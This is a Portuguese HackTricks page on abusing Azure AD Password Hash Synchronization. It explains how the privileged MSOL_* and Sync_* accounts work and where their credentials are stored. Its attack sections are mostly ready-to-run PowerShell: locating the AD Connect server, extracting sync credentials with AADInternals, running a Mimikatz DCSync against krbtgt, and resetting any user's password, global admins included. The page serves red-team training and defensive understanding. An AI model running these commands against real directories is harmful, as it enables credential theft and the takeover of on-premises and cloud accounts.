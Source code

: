 # Az - PHS - Sincronização de Hash de Senha

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações Básicas

**Sincronização de hash de senha** é um dos métodos de login usados para alcançar identidade híbrida. **Azure AD Connect** sincroniza um hash, do hash, da senha de um usuário de uma instância do Active Directory local para uma instância do Azure AD baseada na nuvem.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

É o **método mais comum** usado pelas empresas para sincronizar um AD local com o Azure AD.

Todos os **usuários** e um **hash dos hashes de senha** são sincronizados do local para o Azure AD. No entanto, **senhas em texto claro** ou os **hashes originais** não são enviados para o Azure AD.
Além disso, grupos de segurança **Built-in** (como administradores de domínio...) **não são sincronizados** com o Azure AD.

A **sincronização dos hashes** ocorre a cada **2 minutos**. No entanto, por padrão, **expiração de senha** e **expiração de conta** **não são sincronizadas** no Azure AD. Assim, um usuário cuja **senha local expirou** (não alterada) pode continuar a **acessar recursos do Azure** usando a senha antiga.

Quando um usuário local deseja acessar um recurso do Azure, a **autenticação ocorre no Azure AD**.

**PHS** é necessário para recursos como **Proteção de Identidade** e Serviços de Domínio AAD.

## Pivoting

Quando o PHS está configurado, algumas **contas privilegiadas** são automaticamente **criadas**:

* A conta **`MSOL_<installationID>`** é automaticamente criada no AD local. Esta conta recebe uma função de **Contas de Sincronização de Diretório** (veja [documentação](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) o que significa que ela tem **permissões de replicação (DCSync) no AD local**.
* Uma conta **`Sync_<nome do servidor ADConnect local>_installationID`** é criada no Azure AD. Esta conta pode **redefinir a senha de QUALQUER usuário** (sincronizado ou apenas na nuvem) no Azure AD.

As senhas das duas contas privilegiadas anteriores são **armazenadas em um servidor SQL** no servidor onde o **Azure AD Connect está instalado.** Administradores podem extrair as senhas desses usuários privilegiados em texto claro.
O banco de dados está localizado em `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

É possível extrair a configuração de uma das tabelas, sendo uma criptografada:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A **configuração criptografada** é criptografada com **DPAPI** e contém as **senhas do usuário `MSOL_*`** no AD local e a senha do **Sync\_\*** no AzureAD. Portanto, comprometendo estas é possível escalar privilégios para o AD e para o AzureAD.

Você pode encontrar uma [visão geral completa de como essas credenciais são armazenadas e descriptografadas nesta palestra](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Encontrando o **servidor Azure AD connect**

Se o **servidor onde o Azure AD connect está instalado** está associado ao domínio (recomendado na documentação), é possível encontrá-lo com:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abusando do MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Você também pode usar [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) para obter essas credenciais.
{% endhint %}

### Abusando do Sync\_\*

Comprometer a conta **`Sync_*`** possibilita **redefinir a senha** de qualquer usuário (incluindo Administradores Globais)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Também é possível **modificar as senhas apenas de usuários da nuvem** (mesmo que isso seja inesperado)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Também é possível despejar a senha deste usuário.

{% hint style="danger" %}
Outra opção seria **atribuir permissões privilegiadas a um principal de serviço**, o qual o usuário **Sync** tem **permissões** para fazer, e então **acessar esse principal de serviço** como uma forma de elevação de privilégios.
{% endhint %}

### Seamless SSO

É possível usar o Seamless SSO com PHS, que é vulnerável a outros abusos. Verifique em:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
